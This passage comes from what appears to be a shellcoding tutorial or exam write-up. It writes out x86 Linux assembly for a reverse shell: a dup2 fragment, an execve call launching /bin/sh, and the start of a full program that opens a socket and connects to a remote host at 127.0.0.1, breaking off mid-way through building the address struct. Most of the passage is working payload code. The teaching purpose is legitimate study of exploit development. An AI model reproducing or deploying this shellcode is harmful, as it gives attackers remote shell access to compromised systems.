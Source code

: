 ```
mov cl, 0x2
int 0x80                ; third call with 2
```

I won’t explain this code again, as it is exactly the same as the bind shell. If you are unsure of the implementation above, please check that post.

By this point, our asm script sets up a socket, attempts to connect to a remote host and sets up our pipes ready for our new target process, in this case, it’s our “/bin/sh” shell. This means the final system call required is our execve() call. Again, this implementation came out the same as our bind shell, so again, I won’t step through it.

```
; syscall execve 11 (0xb)
xor eax, eax
push eax

; push //bin/sh and point at stack for 1st
push 0x68732f6e
push 0x69622f2f
mov ebx, esp

push eax
mov ecx, esp

push eax
mov edx, esp

xor eax, eax
mov al, 0xb
int 0x80
```

Our complete implementation can be seen below:
```
global    _start
section .text

_start:
    xor eax, eax
    xor ebx, ebx
    xor ecx, ecx
    xor edx, edx

    ; syscall socket 359 (0x167)
    ; int socket(int domain, int type, int protocol); - returns fd
    mov ax, 0x167                     ; sys call number
    mov bl, 0x2                       ; AF_INET
    mov cl, 0x1                       ; SOCK_STREAM
    ; EDX should already be 0 from initial clear up top
    
    int 0x80                          ; exec syscall
    mov edi, eax                      ; save the fd

    ; syscall connect 362 (0x16a)
    ; int connect(int sockfd, const struct sockaddr *addr, socklen_t addrlen);
    xor eax, eax
    mov ax, 0x16a
    mov ebx, edi                      ; our backed up fd from socket

    ; create our struct
    xor ecx, ecx
    push ecx
    mov byte [esp], 0x7f              ; now esp is: 0x0000007f
    mov byte [esp+3],0x01             ; now esp is 0x0100007f
```